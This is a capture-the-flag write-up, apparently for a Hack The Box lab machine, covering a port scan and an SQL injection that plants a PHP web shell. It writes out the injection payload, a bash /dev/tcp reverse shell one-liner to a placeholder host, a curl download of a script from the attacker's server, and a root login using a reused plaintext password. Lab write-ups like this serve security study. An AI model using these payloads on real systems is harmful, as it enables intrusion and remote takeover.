



The process started with a port scan in order to identify the services exposed by the target machine.
The scan revealed two open services: SSH and HTTP.
After identifying the web service, the website was accessed for further inspection.
While interacting with the web application, a text box was observed along with a button that appeared to submit user input through a POST request.
This input field became the main focus, as it could potentially be abused for SQL injection or code injection.
To better understand how the application processed the input, Burp Suite was used to intercept and analyze the HTTP requests and responses.
It was confirmed that the data entered in the text box was being stored and processed by the backend.
An SQL injection payload was crafted to achieve code execution by writing a PHP web shell directly to the web root.
' union select "<?php SYSTEM($_GET['cmd']) ?>" INTO OUTFILE '/var/www/html/shell.php'-- -This injection resulted in the creation of a functional PHP web shell on the target.

With code execution achieved, the next objective was to gain a more stable and persistent shell.
A reverse shell script was prepared locally.
echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" > reverse.shA local HTTP server was started to host the reverse shell script.
python3 -m http.server 4321An attempt was made to download the script to the target system using curl through the web shell.
10.10.11.116/shell.php?cmd=curl+<IP>:<PORT>/reverse.sh+>+reverse.shThe download attempt was verified by listing the directory contents, but this approach did not work as expected.
Instead, a reverse shell was spawned directly by executing a one-liner through the web shell.
/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261'This resulted in a successful reverse shell connection.
With an interactive shell established, the user flag was located and read.
cat /home/htb/user.txtAt this point, sudo privileges were enumerated, but no direct escalation vectors were identified.
During further local enumeration, a configuration file named config.php was discovered.
Inspecting this file revealed a plaintext password.

The recovered password was tested against the root account.
The authentication attempt was successful, granting access as the root user.

With root privileges obtained, the root.txt flag was located and read, completing the compromise.